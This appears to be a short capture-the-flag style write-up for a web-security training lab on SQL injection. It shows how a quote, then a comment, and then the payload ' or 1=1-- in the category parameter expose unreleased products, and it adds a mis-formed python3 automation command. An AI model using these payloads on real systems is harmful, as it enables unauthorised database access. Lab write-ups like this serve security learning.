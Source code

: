 # Goal Lab SQLi 1
display all products both released and unreleased.
<br />

Query --> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1 `
<br />

1- The first step set `'` after value of parameter category -->  `?category='`
<br />

![step-1](screenshots/2.png)
<br />

1.1- Will appear an error `SELECT * FROM products WHERE category = ''' AND released = 1`.
<br />

![error](screenshots/3.png)
<br />

2- Step two set of after value of parameter category  `?category=' --`
<br />

![step-2](screenshots/4.png)
<br />

2.1- The error disappear `SELECT * FROM products WHERE category = ''--' AND released = 1`.
<br />

!['--](screenshots/5.png)
<br />

5- finally to solve this lab `' or 1=1--`.
<br />

![finally](screenshots/6.png)
<br />

5.1- finally Query `SELECT * FROM products WHERE category = '' or 1=1 --' AND released = 1`.

# Automation sove.
using the script python. `python3 https://0aa500220344ec58c0b8081900eb003c.web-security-academy.net "' or 1=1 --"`

<br />

Will appear this `[+] SQLi successful!` when successfully injection.
<br />

OR `[-] SQLi Falied`. when falied injection.